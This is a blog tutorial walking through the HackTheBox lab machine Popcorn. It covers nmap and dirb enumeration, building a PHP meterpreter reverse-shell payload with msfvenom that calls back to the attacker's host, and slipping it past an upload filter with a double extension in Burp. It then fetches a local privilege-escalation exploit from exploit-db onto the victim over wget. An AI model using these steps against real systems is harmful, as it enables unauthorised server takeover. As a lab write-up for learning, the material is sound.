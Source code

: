 ```yaml
---
layout: post
comments: true
title: "How to hack a site through an uploader."
author: Gerh
featured-img: uploaderPopcorn
image: https://hackingprofessional.github.io/HTB/assets/img/posts/uploaderPopcorn.jpg
description: Learn pentesting web from 0 with HackTheBox (Popcorn).
categories: [Enumeration, Pentesting WEB, Escalation Privilege, Metasploit]
---
```


Hello Hackers!! 
In this day, we will learn how to have total control over a web server, all thanks to a badly configured uploader.  
Before starting I want to clarify that all my published content is done for educational, informative and ethical purposes.
I am not responsible for the misuse they may give you.  

## With this tutorial you will learn:
  - how to intercept requests with burpsuite.
  - how to bypass file upload restrictions using burp suite.
  - how to perform a simple port scan with Nmap.
  - how to get a meterpreter session with Metasploit.
  - how to perform a directory discovery with dirb.
  - How to perform an exploit search with Searchsploit.

To carry out this demonstration, we will perform a penetration test on a vulnerable machine called **Popcorn** published on the [HackTheBox](https://www.hackthebox.eu/home/machines/profile/4) platform.
In any process to hack or have total control over a server in an unauthorized manner must start with a system enumeration.
For this we will perform a simple scan with Nmap, in the following way.  
```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2734]
╰─[:)] # nmap -T4 -Pn -sV -F -sC -oN Popcorn.nmap 10.10.10.6
Starting Nmap 7.70 ( https://nmap.org ) at 2019-04-01 02:06 -05
Nmap scan report for 10.10.10.6
Host is up (0.20s latency).
Not shown: 98 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.1p1 Debian 6ubuntu2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 3e:c8:1b:15:21:15:50:ec:6e:63:bc:c5:6b:80:7b:38 (DSA)
|_  2048 aa:1f:79:21:b8:42:f4:8a:38:bd:b8:05:ef:1a:07:4d (RSA)
80/tcp open  http    Apache httpd 2.2.12 ((Ubuntu))
|_http-server-header: Apache/2.2.12 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```
With the results of the Nmap, we can identify that our victim has port 22 (SSH) and port 80 (HTTP) open.
Knowing port 80 is open in the victim’s network we preferred to explore his IP in the browser but didn’t get any remarkable clue for the next step.  

![Port80Popcorn](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80Popcorn.png "Initial page running on port 80.")  

The next step is to perform a directory discovery, for this I will use DIRB.  
DIRB is a Web Content Scanner. It looks for existing (and/or hidden) Web Objects. It basically works by launching a dictionary based attack against a web server and analyzing the response.
[Kali Linux](https://tools.kali.org/web-applications/dirb)

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2735]
╰─[:)] # dirb http://10.10.10.6 /usr/share/dirb/wordlists/common.txt 

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Apr  1 02:06:49 2019
URL_BASE: http://10.10.10.6/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

---- Scanning URL: http://10.10.10.6/ ----
+ http://10.10.10.6/cgi-bin/ (CODE:403|SIZE:286)                                                                                                     
+ http://10.10.10.6/index (CODE:200|SIZE:177)                                                                                                        
+ http://10.10.10.6/index.html (CODE:200|SIZE:177)                                                                                                   
+ http://10.10.10.6/server-status (CODE:403|SIZE:291)                                                                                                
+ http://10.10.10.6/test (CODE:200|SIZE:47328)                                                                                                       
==> DIRECTORY: http://10.10.10.6/torrent/

---- Entering directory: http://10.10.10.6/torrent/ ----
==> DIRECTORY: http://10.10.10.6/torrent/admin/                                                                                                      
==> DIRECTORY: http://10.10.10.6/torrent/css/                                                                                                        
==> DIRECTORY: http://10.10.10.6/torrent/database/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/health/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/images/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/js/                                                                                                         
==> DIRECTORY: http://10.10.10.6/torrent/lib/                                                                                                                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/readme/                                                                                                                                                                                              
==> DIRECTORY: http://10.10.10.6/torrent/templates/                                                                                                  
==> DIRECTORY: http://10.10.10.6/torrent/torrents/                                                                                                   
==> DIRECTORY: http://10.10.10.6/torrent/upload/                                                                                                     
==> DIRECTORY: http://10.10.10.6/torrent/users/ 
```

Knowing the above, we decided to explore http://10.10.10.6/torrent/ through browser URL and what we see is a Webpage shown below. 
After looking at the page for some clue, we saw that we need to register on this site first.  

![Port80PopcornTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornTorrent.png "Navigating in the directory /torrent") 

To continue, we will create a user in the information system by filling out the registration form.

![Port80PopcornCreateUser](https://hackingprofessional.github.io/HTB/assets/img/posts/Port80PopcornCreateUser.png "Creating a user in the information system.") 

After successfully registering on the website; We managed to identify an uploader where apparently the correct use of this, is for the uploading of utorrent's and hosting them on the site.
The next step is to upload any uttorrent and then edit it, in this way we can find another uploader which will facilitate the upload of our malicious file.

![PopcornEditTorrent](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent.png "Uploading uttorrent") 

![PopcornEditTorrent2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornEditTorrent2.png "Editing uttorrent uploaded") 

Next, we are going to generate with Metasploit an exploit that allows us to connect through a reverse shell.  

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2738]
╰─[:)] # msfvenom -p php/meterpreter/reverse_tcp lhost=10.10.14.4 lport=6969 -f raw > shell.php  
[-] No platform was selected, choosing Msf::Module::Platform::PHP from the payload
[-] No arch selected, selecting arch: php from the payload
No encoder or badchars specified, outputting raw payload
Payload size: 1111 bytes
```

After generating our payload, we try to upload it to the server.
To avoid file filtering by extension that has the web server, which does not allow the upload of a file with PHP extension; what we must do is concatenate another extension that if valid on the name of our payload as follows:

![PopcornUploadShell](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornUploadShell.png "How to bypass file upload restrictions.") 

We are going to start a burpsuite instance, and then we intercept the request to manipulate the extension of our malicious file.

![PopcornBurpsuite](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornBurpsuite.png "How to bypass file upload restrictions using burp suite.") 

Ok, we have our file uploaded to the victim web server.  

![PopcornFileUploaded](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded.png "File with PHP extension uploaded.") 

Now what we must do is locate this file and access it from a browser, in order to obtain RCE on the machine.
Among the results of the previous scan with DIRB, there was a route where the files would appear to be uploaded.
So next we decided to explore http://10.10.10.6/torrent/upload/ through browser URL and what we see is a Webpage shown below.  

![PopcornFileUploaded2](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornFileUploaded2.png "File with PHP extension uploaded.")  

We see that our file has been successfully uploaded. 
We click on our file, but first we must start the metasploit and tell it that we are going to wait for a connection.

![Popcornwww-data](https://hackingprofessional.github.io/HTB/assets/img/posts/Popcornwww-data.png "RCE on Popcorn HackTheBox") 

Ready friends!  
We can now execute commands on our server with the www-data user, thanks to our meterpreter session that we managed to obtain.

## Privilege Escalation  
Now that we have access to the server we are going to enumerate a bit.
Initially I managed to identify something interesting on the desktop.

![PopcornLsR](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornLsR.png "Recursive list of files.") 

Apparently there is a folder called cache that contains a file with interesting name, we will perform a search for exploits with searchsploit indicating the name of the mentioned file.

![PopcornSearchsploit](https://hackingprofessional.github.io/HTB/assets/img/posts/PopcornSearchsploit.png "Using Searchsploit") 

Interestingly, we find 3 results, and apparently 2 of them are used for the Privilege Escalation.
At this moment, what we have to do is copy the exploit from the searchsploit directory, and to avoid later errors we use **dos2unix** to run the exploit without problems on our victim machine.
On the other hand,  In order to upload the script to our victim, I will mount an HTTP server that hosts the script that will allow us to scale privileges.; later from the victim machine I will download the file using WGET.
We go to the folder that contains our bash script and execute the following to mount an HTTP server with Python.

```zsh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2762]
╰─[:)] # cp /usr/share/exploitdb/exploits/linux/local/14339.sh ./                  
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2763]
╰─[:)] # ls
14339.sh  Popcorn.nmap  shell.php.png
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2764]
╰─[:)] # mv 14339.sh privesc.sh
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2765]
╰─[:)] # dos2unix privesc.sh 
dos2unix: converting file privesc.sh to Unix format...
╭─[~/Desktop/APOLO/Ethic4l-Hacking/Operations/Premiun/Popcorn]─[root@Arthorias]─[0]─[2766]
╰─[:)] # python3 -m http.server                                  
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

After having published the exploit on our HTTP server, we downloaded it to our victim machine (Popcorn) and proceed with the execution of this as indicated below.

<script id="asciicast-238104" src="https://asciinema.org/a/238104.js" async></script>

And with this we conclude the tutorial of today.

